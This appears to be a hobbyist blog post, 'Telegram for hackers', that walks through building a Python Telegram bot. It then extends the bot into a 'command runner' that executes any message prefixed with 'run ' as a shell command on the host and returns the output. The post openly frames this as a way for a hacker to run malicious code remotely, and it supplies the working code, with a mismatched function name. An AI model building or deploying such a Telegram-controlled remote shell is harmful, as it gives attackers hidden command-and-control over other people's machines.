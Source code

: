 ```yaml
---
title: Telegram for hackers
tags: ['telegram', 'python']
author: me
image: https://github.com/p-i-c-o/p-i-c-o.github.io/blob/main/img/telegram.png?raw=true
---
```


Telegrams' api has been used for many things, for example: Chat Bots, News
and Updates, Content Delivery, and much much more. However, using Python
and a small computer, a hacker can create a bot that can run malicious
code.
Let's create one together.

### Installation
Because there are some issues with the current pip distribution of the
python-telegram-bot, we need to install version 13.13 specifically:
`pip3 install python-telegram-bot==13.13`

### Usage
We need a bot to use, start a new chat on telegram with the BotFather, and
create a new bot and get its bot token. Make sure no one gets it as it
would give them access to your bot. Save your chat id and your bot token
somewhere safe.

Using a simple script, we can now create a script that communicates with a
chat bot. Here it is:
```python
# ---------------------------------------------
token = "INSERT YOUR TOKEN HERE"
correct_chat_id = "INSERT YOUR CHAT ID HERE"

from telegram import Bot, Update
from telegram.ext import Updater, MessageHandler, filters
import os, subprocess
# ------------------ FUNCTIONS ------------------
def run_shell_command(command):
  result = subprocess.run(command, shell=True, capture_output=True,
text=True)
  return result.stdout

# --------------------- CODE --------------------

def echo(update: Update, context) -> None:
    message = update.message
    reply = None
    # ------------------ Predefined Responses ------------------
    if message.text == "Test 1":
      reply = "Success 1"
    # ----------------------------------------------------------
    bot = context.bot
    if reply != None:
      try:
        bot.send_message(chat_id=correct_chat_id, text=reply)
      except:
        bot.send_message(chat_id=correct_chat_id, text="⚠️ An error
occured ⚠️")


if __name__ == "__main__":
    bot_token = token

    bot = Bot(token=bot_token)
    updater = Updater(bot=bot)
    dispatcher = updater.dispatcher
    echo_handler = MessageHandler(filters.Filters.text, echo)
    dispatcher.add_handler(echo_handler)
    updater.start_polling()
    updater.idle()
```
This script will simply reply "Success 1", when you send it "Test 1". Very
simple. To create our own commands, use this format.
```python
if message.text == <desired_input>:
  reply = <desired_response>
```
This script will only send the user something back nothing else.

### Command Runner
To create something more dangerous, we can create a command runner, this
would let us remotely run a command on the computer hosting this script.
```python
if message.text[:4] == "run ":
  reply = run_command(message.text[4:])
```
It's that simple, but remember to define the `run_command()` function,
heres one I use.
```python
def run_shell_command(command):
  result = subprocess.run(command, shell=True, capture_output=True, text=True)
  return result.stdout
```
This function will run the command with bash and simply return the command
line output.
The cool thing about this command running piece of code is that it detects
if the user started with "run " and runs only what is after that to
prevent confusion.
